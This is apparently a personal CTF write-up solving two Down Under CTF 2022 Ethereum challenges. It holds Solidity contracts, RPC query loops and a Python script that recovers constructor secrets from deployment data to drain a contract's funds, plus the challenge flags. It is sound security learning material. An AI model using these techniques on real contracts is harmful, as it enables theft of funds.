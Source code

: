 The Down Under CTF 2022 took place and it included some nice blockchain challenges 
based on ethereum blockchains and solidity smart contracts. 
Although I've learned some solidity and watched some security theory I hadn't ever
used Remix before or deployed a contract on an EVM.

For this challenges we get our instance of a chain. A RPC endpoint. A JSON endpoint
that displays some information like your account, address of the challenge contracts,
and balance. A JSON endpoint that checks if the challenge condition is solved and 
displays flag.


## SolveMe 
### Blockchain - Beginner - 194 solves

We are given this contract, we need to call `solveChallenge()` and since it's external
we can call it from another contract. 

```javascript
pragma solidity ^0.8.0;

/**
 * @title SolveMe
 * @author BlueAlder duc.tf
 */
contract SolveMe {
    bool public isSolved = false;
    
    function solveChallenge() external {
        isSolved = true;
    }
}
```

We create this contract that will call `solveChallenge` on the target contract.

```javascript
pragma solidity ^0.8.0;

interface SolveMe {
    function solveChallenge() external;   
}
contract Test {
    address tg_addr = 0x6E4198C61C75D1B4D1cbcd00707aAC7d76867cF8;

    constructor() public payable {
        return SolveMe(tg_addr).solveChallenge();
    }   
}
```

To deploy it we need to connect to the chain. 

From Metamask we configure the RPC as the network and import the private key for the account.
We go https://remix.ethereum.org create a new file, paste the script and compile.
On the deploy tab we select Inject Provider and deploy the contract.
When the contract is deployed the `constructor` is called that calls the `solveChallenge`
and we can now visit the solve endpoint to get the flag.

`DUCTF{muM_1_did_a_blonkchain!}`

## Secret and Ephemeral
### Blockchain - Medium - 40 solves


We are given this contract that is deployed with some parameters,
one `secret` string that is saved as private and an int `secret_number`
that is not saved, instead it is hashed with the string and the deployers 
address and this hash is saved as public.

There is also a `retrieveTheFunds` public function that takes 3 parameters, 
the secret, number and address, and checks their hash against the saved one,
if all checks it gives all funds to the caller without checking it is the 
actual owner. That's our win function.

```javascript
pragma solidity ^0.8.0;

/**
 * @title Secret And Ephemeral
 * @author Blue Alder (https://duc.tf)
 **/

contract SecretAndEphemeral {
    address private owner;
    int256 public seconds_in_a_year = 60 * 60 * 24 * 365;
    string word_describing_ductf = "epic";
    string private not_yours;
    mapping(address => uint) public cool_wallet_addresses;

    bytes32 public spooky_hash; //

    constructor(string memory _not_yours, uint256 _secret_number) {
        not_yours = _not_yours;
        spooky_hash = keccak256(abi.encodePacked(not_yours, _secret_number, msg.sender));
    }

    function giveTheFunds() payable public {
        require(msg.value > 0.1 ether);
        // Thankyou for your donation
        cool_wallet_addresses[msg.sender] += msg.value;
    }

    function retrieveTheFunds(string memory secret, uint256 secret_number, address _owner_address) public {
        bytes32 userHash = keccak256(abi.encodePacked(secret, secret_number, _owner_address));

        require(userHash == spooky_hash, "Somethings wrong :(");

        // User authenticated, sending funds
        uint256 balance = address(this).balance;
        payable(msg.sender).transfer(balance);
    }
}

```

We need to retrieve the deploy parameters and this are saved on the transaction right after the bytecode
for the contract. Since this chain was just created for this challenge the contract was probably deployed
in one of the first blocks. We need to compare that transaction data with the contract code.

I set a helper function to call the RPC API.

```bash
export RPC_HOST="https://blockchain-secretandephemeral-030964c73d050caa-eth.2022.ductf.dev/";
alias rpcpost() {
  curl --data-raw $1 -H 'Content-Type: application/json' -X POST $RPC_HOST 
}
```

We get the code from the deployed contract at `0x6E4198C61C75D1B4D1cbcd00707aAC7d76867cF8`.

```bash
rpcpost '{"jsonrpc":"2.0","method":"eth_getCode","params":["0x6E4198C61C75D1B4D1cbcd00707aAC7d76867cF8","latest"],"id":1}' | jq -r '.result'

0x60806040526004361061004a5760003560e01c80631(...)5ab560caa833f878d167e3c94af9005d6dea322262181580b0f895864736f6c63430008110033
```

We iterate through the first few blocks and transactions searching for when the contract is deployed. 

```bash
for blockn in $(seq 0 10);do
    for txn in $(seq 0 3);do
        rpcpost "{\"jsonrpc\":\"2.0\",\"method\":\"eth_getTransactionByBlockNumberAndIndex\",\"params\":[\"0x$blockn\",\"0x$txn\"],\"id\":1}" | jq -r '{from: .result .from,input: .result .input}'
    done
done

{
  "from": "0x7bcf8a237e5d8900445c148fc2b119670807575b",
  "input": "0x6301e1338060015560c060405260(...)0000000000000000000000000000000000000000000"
}
```
The biggest blob there is probably our contract deployment, we can compare it with the code we got before 
to confirm. The values immediatly after the code is the encoded parameters.

From remix, after setting up the new network in Metamask, we can compile the new contract. 
Then from the deploy tab set the contract address and interact with the contract. 
This way we can get the `spooky_hash`. 


```python
from pwn import *
from eth_abi import *
from web3 import Web3 as w3

contract_owner = w3.toChecksumAddress('0x7bcf8a237e5d8900445c148fc2b119670807575b')
binary_params = '0000000000000000000000000000000000000000000000000000000000000040000000000000000000000000000000000000000000000000000000000dec0ded0000000000000000000000000000000000000000000000000000000000000022736f20616e79776179732069206a757374207374617274656420626c617374696e67000000000000000000000000000000000000000000000000000000000000'
secret_str, secret_number = decode(['string','uint256'],unhex(binary_params))
print(secret_str, secret_number)

hash = w3.solidityKeccak(['string','uint256','address'], [secret_str, secret_number, contract_owner])
print(hash.hex())
```

This hash now should be the same as the spooky_hash and we just call the `retrieveTheFunds` 
function with both secrets and the owner address. We check the solve endpoint.

`DUCTF{u_r_a_web3_t1me_7raveler_:)}`

The next blockchain challenge was Crypto Casino, I wasted all my time trying to exploit a suspected
reentrancy bug on withdraw that never worked and totally ignored the boring and evidently deterministic
`_randomNumber` function. 

It was great to finally get my hand disty with solidity and getting to know the tools.